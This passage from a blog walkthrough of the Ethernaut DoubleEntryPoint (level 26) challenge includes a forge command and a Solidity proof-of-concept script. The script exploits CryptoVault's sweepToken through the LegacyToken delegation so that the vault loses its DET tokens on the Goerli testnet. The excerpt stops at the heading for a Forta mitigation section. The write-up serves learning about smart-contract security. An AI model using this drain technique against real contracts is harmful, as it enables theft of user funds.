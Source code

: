 Let's run the script using the following command:

```
forge script ./script/level26.sol --private-key $PKEY --broadcast --rpc-url $RPC_URL -vvvv
```

It can be seen in the screenshot below that the first address was for the `CryptoVault` and the next one was fetched from the `CryptoVault` and which also matches the instance address provided to us by Ethernaut.

The last one is coming from `delegatedFrom` which should be the address of `LegacyToken`.

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1665834917383/0kJP2tZhs.png?auto=compress,format&format=webp)

Since we got the address of the `CryptoVault`, let's also confirm on the Goerli explorer to check the number of tokens stored in the vault:

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1665835311342/_y2Td2Wml.png?auto=compress,format&format=webp) So the vault owns 100 tokens each of LGT and DET. Now that we are sure, let's drain all the DET from the vault. Here's our new code:

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import "../instances/Ilevel26.sol";

contract POC is Script {

     DoubleEntryPoint level26 = DoubleEntryPoint(0xBDc7cd60eca4b6EA63A4e5A37d543Ff803B6D6DA);
    function run() external{
        vm.startBroadcast();

        CryptoVault vault = CryptoVault(level26.cryptoVault());
        address DET = address(vault.underlying());
        address LGT = level26.delegatedFrom();
        vault.sweepToken(IERC20(LGT)); //calling sweepToken with LGT address on the CryptoVault

        vm.stopBroadcast();
    }
}
```

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1665843730964/PkXmXvxBc.png?auto=compress,format&format=webp)

And as expected, the vault was drained of DET tokens which can also be verified on the Etherscan:

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1665843571597/eWGDqO0tC.png?auto=compress,format&format=webp)

---
## The Mitigation Analysis (Forta Bot)

Let's take a look at the last contract that we skipped earlier:
### Forta

